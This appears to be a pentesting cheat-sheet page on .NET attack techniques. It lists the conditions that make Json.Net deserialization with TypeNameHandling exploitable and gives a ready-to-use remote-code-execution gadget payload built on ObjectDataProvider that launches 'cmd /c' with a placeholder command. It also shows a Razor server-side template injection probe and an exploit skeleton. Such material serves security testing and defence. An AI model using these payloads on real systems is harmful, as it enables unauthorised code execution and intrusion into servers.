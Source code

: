 # .NET

### Json.Net Deserialization

Requires a custom TypeNameHandling setting by the dev (not insecure by default!). On of the following must be true for type that is deserialized:

* It is Object Type (java.lang.Object or System.Object)
* It is a non-generic collection (e.g.: ArrayList, Hashtable, etc.)
* It implements IDynamicMetaObjectProvider
*   It is System.Data.EntityKeyMember or any derived Type from it. We may not need even

    TypeNameHandling property set to a non-None (see the EntityKeyMemberConverter in

    "TypeConverters" ).

Common RCE payload (can also be created with ysoerial.net):

```bash
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd','/c <payload>']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

### ASP.NET Razor Template Injection (SSTI)

Check if vulnerable:&#x20;

```
@(7*7)
```

Exploit:

```
@{
  // C# code
}

```

#### References

&#x20;[https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-(SSTI)-in-ASP.NET-Razor/](https://clement.notin.org/blog/2020/04/15/Server-Side-Template-Injection-\(SSTI\)-in-ASP.NET-Razor/)
